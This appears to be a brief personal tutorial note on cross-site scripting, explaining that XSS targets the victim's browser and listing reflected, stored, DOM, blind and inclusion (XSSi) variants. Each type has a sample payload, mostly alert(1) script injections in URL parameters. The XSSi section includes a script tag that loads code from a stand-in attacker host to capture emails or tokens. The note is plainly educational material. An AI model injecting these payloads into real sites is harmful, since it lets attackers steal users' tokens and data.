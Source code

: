 *XSS => Cross Site Scripting 


This attack occurs whenever we can load a JavaScript code in the DOM of the desired page.

this attack aims the Victim's browser , not the server!


- bypass SOP:

  
       https://target.tld/search?q=<XSS_Payload>


For example, the attacker in the above address has realized that he can launch an XSS attack by injecting the payload, and he knows that the target token is located in the /usr/token path, and he can get it with the right payload. 


for example :

Payload => script src="https://target.tld/usr/token.js"></script>
browser console => alert(token);


But if the attacker wants to send a request directly to that path, SOP stops the browser!


*XSS Types:


  - Reflected XSS => RXSS:

    
         https://target.tld/search?q=<script>alert(1);</script>


  - Stored XSS => SXSS :

    
         https://target.tld/user?email=<script>alert(1);</script>


  - DOM XSS => DXSS:

    
        https://target.tld/user#";alert(1);
    
        
        developer => location.hash
    

   - Blind XSS BXSS or Persistent XSS:
   
    The code runs where Attacker doesn't see it


   
   - XSSi => XSS Inclusion

     
         - js => automate generate 
         - email , token , ...
             - exploit : 
                            <script src="http://atacker.tld/info.js"></script>
